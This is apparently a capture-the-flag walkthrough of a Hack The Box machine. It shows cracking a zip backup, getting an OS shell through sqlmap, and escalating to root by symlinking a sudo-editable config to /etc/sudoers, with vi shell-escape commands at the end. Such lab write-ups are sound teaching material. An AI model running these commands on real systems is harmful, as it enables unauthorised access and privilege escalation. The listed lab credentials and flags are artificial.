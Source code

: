 public:: true
tags:: ftp, postgres, sqlmap, sudo, gtfobins

- Via a FTP Anonymous connection I was able to download an encrypted archive `backup.zip`
	- Crack it with `john`
	  ```bash
	  # Create an hash that can be decrypted with john
	  > zip2john backup.zip > backup.zip.zip2john.txt
	  ```
		- zip password: 741852963
		  background-color:: pink
	- From the unencrypted archive I was able to retrieve creds to use in the website
		- **Username**: admin, **Password**: qwerty789
		  background-color:: pink
- `sqlmap` against the website return a shell with user `postgres`
	- ```bash
	  > sqlmap -u "http://10.129.95.174/dashboard.php?search=a" \
	         --cookie="PHPSESSID=r2i0ob4upjstu87lq6rrov5kdf" \
	         --os-shell
	  ```
- I can now retrieve some OS usernames from `/home`
	- ```bash
	  > ls -l /home
	  drwxr-xr-x 5 ftpuser ftpuser 4096 Jul 23  2021 ftpuser
	  drwxr-xr-x 4 simon   simon   4096 Jul 23  2021 simon
	  ```
- **User flag** at `/var/lib/postgresql/user.txt`
	- ec9b13ca4d6229cd5cc1e09980965bf7
	  background-color:: green
- In order to run `sudo -l` I need an interactive shell, the one from `sqlmap` is not
	- For that I used `socat` as explained [here](logseq://graph/HTB-Notes?block-id=65534bc6-4e92-4e47-aa27-491d85b83cdd)
	- The password for the user `postgres` is required to run such a command
		- By exploring the filesystem the plain-text password to connect to the DBMS can be found in `/var/www/html/dashboard.php`. Due to password reuse it happens to also be the password for the `postgres` OS user.
		  #+BEGIN_CAUTION
		  postgres:P@s5w0rd!
		  #+END_CAUTION
	- We can now check which command the current user can run via `sudo`
	  ```bash
	  postgres@vaccine:/var/www/html$ sudo -l
	  [sudo] password for postgres: 
	  Matching Defaults entries for postgres on vaccine:
	     	env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
	   	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
	  
	  User postgres may run the following commands on vaccine:
	   	(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
	  ```
- ### Privesc
	- Now that we know that we are allowed to run the following exact command via `sudo` and so as `root`
	  ```bash
	  vi /etc/postgresql/11/main/pg_hba.conf
	  ```
	  and since I do have write access to the `/etc/postgresql/11/main` folder
	  ```bash
	  postgres@vaccine:/etc/postgresql/11/main$ mv pg_hba.conf pg_hba.conf.back
	  postgres@vaccine:/etc/postgresql/11/main$ ln -s ../../../../etc/sudoers pg_hba.conf
	  postgres@vaccine:/etc/postgresql/11/main$ ls -l
	  total 52
	  drwxr-xr-x 2 postgres postgres  4096 Jul 23  2021 conf.d
	  -rw-r--r-- 1 postgres postgres   315 Feb  3  2020 environment
	  -rw-r--r-- 1 postgres postgres   143 Feb  3  2020 pg_ctl.conf
	  lrwxrwxrwx 1 postgres postgres    23 Nov  8 17:44 pg_hba.conf -> ../../../../etc/sudoers
	  -rw-r----- 1 postgres postgres  4659 Nov  8 17:44 pg_hba.conf.back
	  ```
	  we could replace that file with a link to `/etc/sudoers` and grant us more powers
	  ```bash
	  sudo vi /etc/postgresql/11/main/pg_hba.conf
	  ```
	- **Root flag** at `/root/flag.txt`
		- dd6e058e814260bc70e9bbdef2715849
		  background-color:: green
- *Extra path to privesc*
	- According to [gtfobin](https://gtfobins.github.io/gtfobins/vi/#sudo) a shell can be executed out from `vim` without touching the filesystem it two different ways
		- While calling `vim`
		  logseq.order-list-type:: number
		  ```bash
		  vi -c ':!/bin/sh' /dev/null
		  ```
		  this specific example wouldn't have worked in our case because we were strictly limited about the way I we could call `vim` with `sudo`.
		- Within `vim`
		  logseq.order-list-type:: number
		  ```
		  > vi
		  :set shell=/bin/sh
		  :shell
		  ```